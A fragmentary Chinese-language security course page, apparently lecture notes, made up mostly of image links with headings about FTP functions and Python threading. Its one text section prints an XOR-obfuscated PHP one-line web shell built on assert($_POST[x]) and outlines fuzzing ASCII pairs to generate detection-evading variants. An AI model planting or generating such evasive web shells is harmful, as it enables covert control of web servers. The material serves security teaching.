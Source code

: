 ftp 常用函数

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZODzHfOiaHAPCwYV4PyGPkjPgMBS1FuW3b86RsoCzDC1hTWEHyNpaUug%2F640%3Fwx_fmt%3Dpng)

（2）python 多线程 用法详解

    https://blog.csdn.net/briblue/article/details/85101144 

3\. 实现代码

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZwmCW1Anoey0dXia3bZcrqF1ZnrJS5eNKCiabsJ1w1ahy68gYTmGy84yw%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZIIibywiaFka99epCNl7RpHRl6AOK53L6M2cpVSVJ5MCicp87cPy1Sby0Q%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZ0ibL1NwFmh1guIwOoZzZ14fHvlldUBjEibNOA8ibxBf17hBOd4eW8VWhA%2F640%3Fwx_fmt%3Dpng)

案例3

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZZVDaqc53VRJQyc4CgJu2rCouDXzU9okUpS8NHPFPWYIbup9XUWnzcA%2F640%3Fwx_fmt%3Dpng)

1\. php 异或

参考 https://blog.csdn.net/qq\_41617034/article/details/104441032

资料

(1)免杀异或异或一句话木马 <?php $a=(“!”^”@”).’ssert’;$a($\_POST\[x\];?> 其原形为<?php assert($\_POST\[x\]);?>

原理：!的 ASCII 为 33；@的 ASCII 为 64，二者的值转换成二进制，并且进行异或运算，得出 的二进制结果再转换成 ASCII，该值为 97，查询为 a 通过 fuzz 来生成免杀木马

思路：不看二进制的异或计算，列出所有 ASCII 值<127 的的组合（127x127），将这些组合 放入一句话木马中，然后测试该 payload 是否成功，写入到网站根目录；发起 requests 请求， 看返回内容，能够执行的文件返回的内容和不能执行的文件返回的内容是不一样的

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZ4y52eYaCFQvSa0wt7aoLCVAMnkMZSKgwet2jzjMsp2y4Dd7ypU1tGg%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZdeWXC2sPCxOdDM7h0ZhteDgHmSaicIOcC0bYYyLs1ZIjYcVLVdgiaqPw%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZFx2TlS2wBxic74yNruFMY9eAdlyyg13W8QlTLVSThm8rP2Lnoo00JJw%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZlI4XibbfQvrN4lZo4OAX8tg1AicACdovPx9jyeGdjaAcMToSvMjmUu2A%2F640%3Fwx_fmt%3Dpng)

4\. 更多思路 <?php assert($\_POST\[x\]);?>这种一句话的内容都可以通过异或去生成，或者以其它免杀方式 结合异或，代码变异

课程大纲

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZHwBm6OFfjTFY3LNj0WkhExxT8qEOIiaZhCSalq2uQIOyWqhBulBcFXw%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZvLoLjiaTafPkWJyUjOJHibKVTAMWiaWib29W10e8bibRFl6aIBYA1H0VfzQ%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZmqicJ1Z41P9gF1V0C7x9rWuOPCkDAXnN9JY0Sg65XicHkVXXmG0WSyRQ%2F640%3Fwx_fmt%3Dpng)

演示案例

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZn961gnFChicz9vVLDyHIaVFRmicJWRqkTDpYVUqAeZFKGdhxwYsEWaCw%2F640%3Fwx_fmt%3Dpng)
